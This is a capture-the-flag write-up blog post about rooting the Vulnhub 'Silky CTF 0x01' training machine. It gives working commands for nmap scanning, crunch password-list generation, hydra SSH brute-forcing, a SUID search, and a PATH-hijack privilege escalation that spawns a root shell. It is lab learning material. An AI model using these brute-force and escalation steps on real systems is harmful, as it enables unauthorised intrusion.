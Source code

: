 ```yaml
---
layout:   post
title:      "Vulnhub - Silky CTF 0x01"
date:       2019-07-8 
author:     "D4mianwayne"
tag:      nmap, ctf, vulnhub
category: Vulnhub
---
```


Today, we are going to pwn Silky CTF: 0x01 from Vulnhub.

# Methodology

* Host Discovery
* Nmap Scan of the machine
* Checking for disallowed entry in `robots.txt`
* Password recovery
* SSH bruteforce of user silky
* Privilege Escalation

# Host Discovery

Running `nmap -sn 192.168.43.0/24` will quickly gives the list of alive host from where we can see our silky machine ip.

![](/img/silky/host.png)

# Nmap

Starting with nmap, we do `nmap -sV -sC -A 192.168.43.232`. Although this command is very useful as it provides us a good amount of information on our host.

![](/img/silky/nmap.png)

# HTTP Enumeration

So, from above nmap result we can see there's a note.txt is on the server. Accessing that webpage gives german text which translates to:

>I absolutely have to remove the password from the page, after all, the last 2 characters are missing. But still.

Hmm, I didn't see any password. So I run dirb but no luck. So I went to examine the index page and from the source we can see that there is a javascript file, so I checked it and found first five characters of password. Now we need to guess 2 mre characters.

![](/img/silky/js.png)


# Password Recovery and SSH bruteforce

### Generating Custom Passwords
So, one of the useful tool here is `crunch` available on kali linux, so I used it to make a password file.

```

crunch 7 7 s1lKy^% > pass.txt

```

#### Command Explaination

`7 7` - Since we know that password is 7 character long we use it define that we need minimum of 7 and maximum of 7 characters/
`^%` - This is used to specified that last 2nd character is a symbol and last one is a digit.

### SSH Bruteforce

So, whenever it comes to bruteforce hydra to the rescue.

```

hydra -l silky -P pass.txt 192.168.43.232 ssh

```

![](/img/silky/ssh.png)


# Privilege Escalation

So, trying our `find / -perm -u=s -type f 2>/dev/null` gives a interesting binary executable file named `sky`.

![](/img/silky/find.png)

So, using `strings /usr/bin/sky` reveals some information on how the binary works.

![](/img/silky/strings.png)

#### Spawning root shell by xploiting PATH variable

So, as we know it is using `whoami` so I did the following:

```

cd /tmp
echo "/bin/sh" > whoami
chmod 777 whoami
sky

```

Kaboom, we're root now.

![](/img/silky/root.png)


This was an easy Vulnhub machine and a great way to learn about generating custom passwords using `crunch`.

